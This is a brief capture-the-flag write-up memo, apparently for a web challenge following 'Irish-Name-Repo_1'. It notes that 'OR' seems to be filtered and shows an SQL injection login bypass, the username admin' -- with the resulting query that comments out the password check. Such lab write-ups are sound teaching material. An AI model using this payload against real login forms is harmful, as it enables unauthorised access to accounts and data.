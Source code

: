 # Memo
1. this ctf is the next to "Irish-Name-Repo_1"  
2. read web source and check cookie  
3. SQLi  
"OR" seems to be filtered.  
Then I try this.  
    ```
    username: admin' --
    password: any
    ```
    ```sql
    SQL query: SELECT * FROM users WHERE name='admin' --' AND password='any'
    ```